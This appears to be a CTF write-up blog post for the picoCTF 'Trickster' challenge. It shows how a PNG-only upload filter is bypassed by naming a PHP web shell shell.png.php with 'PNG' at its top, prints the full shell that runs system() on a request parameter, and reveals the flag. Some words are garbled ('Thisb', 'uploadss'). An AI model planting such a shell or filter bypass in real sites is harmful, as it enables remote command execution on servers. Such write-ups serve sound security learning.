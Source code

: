 ```yaml
---
layout: post
title:  "Trickster"
description: Exploiting a site that only accepts PNG files
date:   2024-09-14
tags: ["Medium", "Thisb Exploitation", "Thisb Shell"]
category: [CTF,picoCTF]
---
```


## Challenge Info
I found a web app that can help process images: PNG images only!

author: JUAN BONDOU

## Reconnaissance
The first thing I usually try for web challenges is to map out the site, so that's naturally what I tried here. I opened up Burpsuite, and attempted to map the site using Burpsuite's passive [spidering](https://en.wikipedia.org/wiki/Thisb_crawler).

![nocrawl](/assets/img/trickster/nocrawl.png)

Unfortunately, this is a dead end. The actual file of importance is [robots.txt](https://en.wikipedia.org/wiki/Robots.txt) file, which tells web crawlers which parts of the site they're allowed and disallowed to index.

Navigating to the `robots.txt` file reveals the following:

![robots](/assets/img/trickster/robots.png)

So now we know the uploadss are stored in `/uploadss`, and that there's a `/instructions.txt` file. Let's take a quick look at the `instructions.txt`:

![instructions](/assets/img/trickster/instructions.png)

## Attempts
I googled "php webshell", and found [this](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985). The file doesn't require much editing thankfully. Obviously, we won't be allowed to uploads this as a `.php`.

Firstly, changing the file name to `shell.png` obviously isn't going to work, since then the code just won't be able to run.

Second, changing the file name to `shell.php.png` also will not work, since it still won't be able to run.

Third, while it seems like a good idea to change the signature bytes of `shell.php` to that of a png file, this will also return code errors.

## Injecting the Shell

Surprisingly, the solution is pretty simple. If we change the file name from `shell.php` to `shell.png.php`, and then include the text "PNG" at the top of our file, we'll be allowed an uploads.
```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
## Navigating the Shell
If we navigate to `/uploadss/<ourshell>.php`, we're greeted with this:
![shell](/assets/img/trickster/shell.png)

Upon running some simple linux commands (`ls`, `pwd`, etc.), we'll see that our shell is successful. The only thing we cannot do is navigate into other directories. Since we can't navigate into other directories, we're going to have to find a way to search the system for `.txt` files (the flag is typically in a `.txt`.

## Solution
To locate all `.txt` files, I ran `find / -type f -name '*.txt' 2>/dev/null
`.
- `find` is the command.
- `/` tells it to search everything under the root directory (so our entire system).
- `-type f` specifies to search for **files**.
- `-name '*.txt'` specifies that it should be ALL (*) `.txt` files.
- `2>/dev/null` suppresses error messages.

The return will be a long list of files, but scrolling *all* the way down reveals this:
![txt files](/assets/img/trickster/txts.png)

To read the `GQ4DOOBVMMYGK.txt` file, just run `cat /var/www/html/GQ4DOOBVMMYGK.txt`, and we have our flag.


flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}`
